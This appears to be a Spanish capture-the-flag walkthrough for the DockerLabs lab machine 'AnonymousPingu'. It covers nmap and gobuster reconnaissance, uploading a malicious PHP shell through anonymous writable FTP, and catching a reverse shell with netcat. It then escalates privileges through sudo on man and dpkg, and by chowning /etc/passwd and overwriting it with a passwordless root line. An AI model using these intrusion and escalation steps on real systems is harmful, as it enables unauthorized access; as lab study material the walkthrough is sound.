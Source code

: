 # anonymouspingu

Maquina "AnonymousPingu" de [DockerLabs](https://dockerlabs.es)

Autor: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

Dificultad: Fácil

![dock](../../../maquina-anonymouspingu/img/dock.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de `nmap`:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 <ip> -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Mon Sep  9 23:17:04 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000016s latency).
Scanned at 2024-09-09 23:17:05 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    1 0        0             118 Jan 01  1970 css
| drwxr-xr-x    1 0        0               0 Apr 28 18:28 heustonn-html
| drwxr-xr-x    1 0        0             574 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28 18:32 index.html
| drwxr-xr-x    1 0        0              62 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33              0 Sep 10 02:07 upload [NSE: writeable]
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Mantenimiento
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  9 23:17:13 2024 -- 1 IP address (1 host up) scanned in 9.18 seconds
```

Como vemos tenemos el puerto 80 abierto y el ftp, el cual tiene login anonimo y además parece que estamos dentro de la propia página, para confirmarlo podemos hacer uso de `gobuster` y ver que directorios o archivos tiene la máquina:

```css
 gobuster dir -u http://<ip> -w <wordlist> -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 20162]
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/about.html           (Status: 200) [Size: 7816]
/contact.html         (Status: 200) [Size: 8102]
/upload               (Status: 301) [Size: 309] [--> http://172.17.0.2/upload/]
/service.html         (Status: 200) [Size: 9808]
/css                  (Status: 301) [Size: 306] [--> http://172.17.0.2/css/]
/js                   (Status: 301) [Size: 305] [--> http://172.17.0.2/js/]
Progress: 166877 / 882244 (18.92%)
===============================================================
Finished
===============================================================
```

Como podemos ver estamos en la propia página, por lo que teniendo en cuenta que la carpeta `upload` es accesible desde el navegador y que podemos escribir en ella con ftp, tenemos que subir a traves de ftp un php malicioso que nos permita ejecutar comandos dentro de la máquina.

## INTRUSION

Para esto podemos usar el script que hice para esta máquina:

[Script](../../../maquina-anonymouspingu/scripts/intrusion.sh)

Una vez descargado, le damos permisos con `chmod +x intrusion.sh`, luego escuchamos con netcat en el puerto 9090:

```css
nc -nlvp 9090
```

ahora solo ejecutamos el script y ya habremos ganado acceso como www-data.

## ESCALADA DE PRIVILEGIOS

#### www-data

Ahora que estamos dentro, haremos el tratamiento de la tty:

```css
script /dev/null -c bash # Lo ejecutamos y presionamos ctrl+Z
stty raw -echo;fg # Ejecutamos y le damos al enter, luego escribimos "reset xterm" y enter
export TERM=xterm && export SHELL=bash
```

Ahora si ejecutamos un `sudo -l` veremos que podemos ejecutar el binario man como "pingu". Ahora ejecutaremos `sudo -u pingu man find` y se nos abrirá un menú, una vez en el menú ponemos `!/bin/bash` y ya pivotaremos a pingu

### Pingu

Si ejecutamos `sudo -l` veremos que se puede ejecutar dpkg como gladys, por lo que ejecutaremos `sudo -u gladys dpkg -l` y en el menú nuevamente `!/bin/bash`.

#### Gladys

Ahora, podemos ejecutar chown como gladys, por lo que podemos modificar el passwd eliminando la "x" del usuario root para poder cambiar de usuario sin contraseña, para hacerlo tenemos que ejecutar lo siguientes dos comandos:

```css
sudo chown gladys:gladys /etc/
sudo chown gladys:gladys /etc/passwd
```

Ahora como no tenemos nano, haremos algo a lo bruto, que seria dejar el passwd solo con las cosas de root pero sin la "x", y una vez escalamos instalamos nano y ponemos el passwd como antes. Para hacerlo usaremos `echo`:

```css
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd
```

una vez hecho esto ejecutamos `su` y ya seremos root, pero para que no quede todo corrupto, instalamos nano con `apt install nano`, y luego editamos el `/etc/passwd` pegando esto:

```css
root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:996:996:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
ftp:x:101:103:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
systemd-resolve:x:995:995:systemd Resolver:/:/usr/sbin/nologin
pingu:x:1001:1001::/home/pingu:/bin/bash
gladys:x:1002:1002::/home/gladys:/bin/bash
```

y ahora seremos root sin problemas con los demás usuarios:

![root](../../../maquina-anonymouspingu/img/root.png)

Gracias por leer.
